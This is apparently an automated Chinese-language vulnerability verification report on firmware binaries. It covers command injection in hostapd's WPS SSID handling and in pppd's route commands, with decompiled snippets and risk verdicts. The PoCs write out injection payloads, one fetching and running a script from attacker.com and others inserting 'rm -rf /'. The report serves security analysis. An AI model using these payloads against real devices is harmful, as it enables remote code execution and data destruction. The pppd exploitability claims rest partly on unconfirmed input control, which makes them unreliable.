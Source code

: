## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。反编译代码显示在 `sym.wps_set_ap_ssid_configuration` 函数中，用户输入 `param_2`（`uStackX_4`）被直接用于构建 `system()` 调用的命令字符串（格式为 'cfg wpssave %s'），无任何输入验证或转义。关键代码证据：`(**(loc._gp + -0x7ddc))(auStack_498, "cfg wpssave %s", uStackX_4);` 后跟 `(**(loc._gp + -0x7948))(auStack_498);`（相当于 `system(auStack_498)`）。输入可控性通过调用链确认：`param_2` 来自 `sym.eap_wps_config_set_ssid_configuration` 的 `param_5`，最终源自控制接口用户输入。路径可达性验证：代码逻辑在正常执行流中会到达 `system` 调用（无前置条件阻断）。攻击者模型为拥有 hostapd 控制接口访问权限的认证用户（非 root）。实际影响：任意命令执行可导致 root 权限提升、文件系统访问或网络侦察。可重现 PoC：攻击者通过控制接口发送特制 WPS 配置命令，其中 `param_2` 包含命令注入载荷，如 `"; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh; sh /tmp/malicious.sh;"`，执行时将下载并运行恶意脚本。完整攻击链：控制接口输入 → `sym.eap_wps_config_set_ssid_configuration` → `sym.wps_set_ap_ssid_configuration` → `system()` 调用。

## 验证指标

- **验证时长：** 311.42 秒
- **Token 使用量：** 315614

---

## 原始信息

- **文件/目录路径：** `usr/sbin/pppd`
- **位置：** `pppd:0x427e90 fcn.00427e90, pppd:0x428000 system call, pppd:0x428310 system call`
- **描述：** 在 fcn.00427e90 和 sym.sifdefaultroute 函数中，使用 system 调用执行路由管理命令，命令字符串通过格式化字符串构建，包含用户可控的参数（如 IP 地址）。如果攻击者能控制这些参数（例如通过恶意 PPP 配置或网络数据），他们可以注入任意命令。例如，在 fcn.00427e90 中，命令 'route del -host %s dev %s' 中的 %s 可能包含 shell 元字符（如 ; 或 `），导致额外命令执行。触发条件：pppd 处理路由更新时调用这些函数，且参数来自不可信源（如网络输入）。潜在攻击方式：攻击者发送恶意 PPP 数据包或配置，注入命令如 '; rm -rf / ;'，从而删除文件或执行其他操作。约束条件：参数可能经过一定验证，但代码中未显示输入过滤。由于 pppd 以 root 运行，成功利用将获得 root 权限。
- **代码片段：**
  ```
  // In fcn.00427e90:
  (**(loc._gp + -0x7d90))(auStack_a4,"route del -host %s dev %s",uVar3,*(loc._gp + -0x7bd4));
  (**(loc._gp + -0x7824))(auStack_a4);
  // In sym.sifdefaultroute:
  (**(loc._gp + -0x7824))("route del default");
  (**(loc._gp + -0x7d90))(auStack_7c,"route add default gw %s dev ppp0",uVar3);
  (**(loc._gp + -0x7824))(auStack_7c);
  ```
- **备注：** 需要验证参数 uVar3 和 *(loc._gp + -0x7bd4) 是否用户可控。建议检查网络数据处理函数以确认输入源。关联函数：fcn.00427e90, sym.sifdefaultroute, 和网络协议处理函数。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自反汇编代码：在fcn.00427e90中，使用sprintf构建命令'route del -host %s dev %s'并调用system执行，参数来自inet_ntoa(s3)和全局变量obj.ifname；在sym.sifdefaultroute中，直接执行'route del default'并使用sprintf构建'route add default gw %s dev ppp0'后调用system，参数来自inet_ntoa(s4)。参数s3和s4是函数输入，可能来自PPP网络数据或配置，攻击者可控制这些参数（如IP地址）。没有证据显示输入过滤或转义，因此如果参数包含shell元字符（如;或`），可注入任意命令。路径可达：pppd以root权限运行，在处理路由更新时调用这些函数。完整攻击链：攻击者发送恶意PPP数据包或配置，将IP地址设置为注入载荷（如'; rm -rf / ;'），当pppd执行路由命令时，会执行额外命令。PoC示例：在PPP配置中设置IP地址为'192.168.1.1; rm -rf / ;'，触发fcn.00427e90时执行'route del -host 192.168.1.1; rm -rf / ; dev ppp0'，导致文件删除或其他恶意操作。
